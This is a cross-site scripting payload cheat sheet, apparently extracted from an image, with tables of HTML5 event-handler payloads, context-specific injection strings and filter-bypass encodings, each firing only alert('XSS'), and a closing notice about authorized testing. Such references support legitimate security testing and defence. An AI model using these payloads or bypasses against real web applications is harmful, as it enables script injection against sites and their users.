## HTML5-Specific Payloads
| Payload | Feature Used |
|---------|-------------|
| `<details ontoggle=alert('XSS')>` | Details element |
| `<video poster=javascript:alert('XSS')>` | Video attribute |
| `<input onfocus=alert('XSS') autofocus>` | Autofocus |
| `<math href="javascript:alert('XSS')">CLICK</math>` | MathML |

## Special Context Payloads
| Context | Payload |
|---------|---------|
| JavaScript string | `\';alert('XSS');//` |
| HTML attribute | `" onmouseover="alert('XSS')` |
| URL parameter | `javascript:alert('XSS')` |
| CSS value | `background:url('javascript:alert("XSS")')` |

## Prevention Bypass Techniques
| Technique | Example Payload |
|----------|----------------|
| Null byte | `<script>alert('XSS')%00</script>` |
| Line breaks | `<script>\nalert('XSS')\n</script>` |
| Multiple encoding | `%253Cscript%253Ealert('XSS')%253C/script%253E` |
| Unicode escape | `\u003Cscript\u003Ealert('XSS')\u003C/script\u003E` |

> **Legal and Ethical Notice:**  
> This document is for educational purposes only. Always obtain proper authorization before testing these payloads on any system. Unauthorized testing may violate laws like the Computer Fraud and Abuse Act (CFAA) and other cybersecurity regulations. Use this knowledge responsibly to improve web application security.
```

